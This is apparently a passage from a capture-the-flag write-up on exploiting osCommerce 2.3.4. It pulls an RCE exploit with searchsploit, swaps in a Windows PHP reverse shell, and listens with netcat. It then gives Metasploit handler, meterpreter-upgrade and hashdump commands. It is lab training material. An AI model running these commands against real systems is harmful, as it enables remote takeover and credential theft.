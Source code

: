 ![[8vu4iz7y.bmp]]
> searchsploit  oscommerce-2.3.4

> searchsploit -m 44374.py (RCE)

BY the way, you can:
open this script with vim and read through so we can understand how it works.

> vim 44374.py (to find some info about the administrator page)


![[ks12gbac.bmp]]

Further down we can see a payload.

![[qjxpex7r.bmp]]

hese seems like a Linux POC payload but we know from the enumeration (and the description of this challenge )  or you could see via enumeration "-A"that our target machine works with windows. After some search for php payloads I found that this payload will work like a charm from [here](https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php). We just need to change the $ip parameter to our IP so we can get a reverse shell at port 1234.

Resource:

![[Pasted image 20240210172139.png]]

you just modify the ip to your's and the port where your netcat is listening on:

> nc -nlvp 1234

or you can use metasploit:

reverse shell with metasploit:

#### 3) Metasploit

```
msf5> use exploit/multi/handler
msf5> set payload windows/shell/reverse_tcp
msf5> set lhost tun0
msf5> set lport 1234
msf5> run
CTRL+Z to background shell
sessions -u 1
sessions -i 2
use post/multi/manage/shell_to_meterpreter
set session 1
run
sessions
sessions -i 2
```

```
meterpreter> run hashdump
```
